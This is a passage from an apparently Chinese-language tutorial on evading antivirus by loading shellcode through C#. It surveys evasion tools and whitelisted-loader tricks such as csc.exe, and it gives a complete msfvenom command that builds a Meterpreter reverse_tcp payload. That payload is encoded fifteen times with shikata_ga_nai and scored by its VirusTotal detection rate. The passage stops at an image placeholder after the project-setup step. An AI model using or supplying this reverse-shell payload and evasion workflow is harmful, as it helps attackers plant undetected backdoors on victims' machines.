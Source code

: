  ---


# 1 C#加载shellcode免杀介绍

使用C#加载shellcode也是比较常见的一种免杀方式，比如之前文章里的zirikatu、veil、AVIator、SpookFlare等工具都可以对C#代码进行免杀处理，而SharpShooter和CACTUSTORCH还可以使用vbs或js执行C#的二进制payload。

这里我们介绍一下基于C#的常见手工免杀方法，C#加载shellcode也和C/C++加载类似，可以分两种方式。

1、C#源码+shellcode直接编译，且shellcode可进行一些加密混淆处理；

2、使用加载器加载C#代码，这个就是网上常见的白名单程序加载了，比如可以利用csc.exe。


# 2 C#源码直接编译exe

## 2.1 方法1：C#+shellcode直接编译(VT免杀率20/71)
 
先用msfvenom生成基于C#的shellcode,使用了`shikata_ga_nai`编码
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333 -e x86/shikata_ga_nai  -i 15  -f csharp -o payload.txt
```
在vs2017中新建C#加密项目

![6097b902e05b60146389d0e0dca55f43](images/2020.03-bypass-04/2.png)
